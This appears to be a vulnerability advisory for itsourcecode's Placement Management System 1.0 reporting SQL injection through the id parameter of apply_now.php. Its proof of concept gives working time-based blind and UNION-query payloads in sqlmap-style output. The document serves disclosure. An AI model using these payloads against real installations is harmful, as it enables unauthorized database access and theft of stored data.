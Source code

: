 # Vendor

itsourcecode

# Product

Placement Management System

# version

1.0

Download Source Code: https://itsourcecode.com/wp-content/uploads/2021/04/Placement-Management-System-Project-In-PHP-Source-Code.zip

# Description

In the apply_now.php page, the id parameter is not strictly filtered, allowing attackers to construct malicious payloads for SQL injection attacks.
<img width="986" alt="image" src="https://github.com/user-attachments/assets/bad97145-69ee-4e11-aa44-d018393b3358">


# Poc
```
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: id=1' AND (SELECT 1150 FROM (SELECT(SLEEP(5)))cjwo) AND 'BTUh'='BTUh

    Type: UNION query
    Title: Generic UNION query (NULL) - 14 columns
    Payload: id=1' UNION ALL SELECT CONCAT(0x716a7a7171,0x7473767843427a464d48514b6e4b464a5365624d71574d7944575573446d62614950505a487a437a,0x7162626b71),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -
```
